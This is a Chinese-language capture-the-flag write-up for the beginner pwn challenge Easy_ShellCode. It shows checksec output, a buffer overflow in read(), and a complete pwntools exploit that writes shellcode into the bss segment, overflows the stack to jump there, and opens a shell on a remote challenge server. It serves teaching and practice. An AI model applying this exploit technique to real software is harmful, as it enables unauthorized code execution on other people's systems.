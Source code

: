 ```yaml
---
title: 基础栈溢出ret2shellcode 写入BSS段
layout: doc
---
```

# {{$frontmatter.title}}
[[toc]]

## pwntools生成shellcode
```py
from pwn import *
context(os="linux", arch='amd64') # 需要设置，否则64位报错
# 32 bit
shellcode = shellcraft.sh()
shellcode_asm = asm(shellcode)

# 64 bit
shellcode = shellcraft.amd64.sh()
shellcode_asm = asm(shellcode)
```

## 基础检查
> 本例题是PolarD&N的基础入门pwn题 Easy_ShellCode
```zsh
┌──(kali㉿kali)-[~/win/Downloads]
└─$ file Easy_ShellCode 
Easy_ShellCode: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8a397c2f97ee491b559ba464305c76619d631224, not stripped
                                                                                          
┌──(kali㉿kali)-[~/win/Downloads]
└─$ checksec --file=Easy_ShellCode 
[*] '/home/kali/win/Downloads/Easy_ShellCode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## IDA反编译源码
![alt text](image-9.png)

![alt text](image-10.png)

发现str是在bss段 可以写入shellcode
read函数 buf 存在缓冲区溢出
获取str地址

## 编写exp
```py
from pwn import *
context(os="linux", arch='i386')
# 32 bit
shellcode = shellcraft.sh()
shellcode_asm = asm(shellcode)

# io = process("./Easy_ShellCode")
io = remote("120.46.59.242",2053)
io.sendline(shellcode_asm)

padding = 0x68 + 4 # 32 bit
shellcode_addr = 0x0804A080

io.sendline(b'a'*padding + p32(shellcode_addr))
io.interactive()
```
> 本地打不通，远程可以，是很正常的~！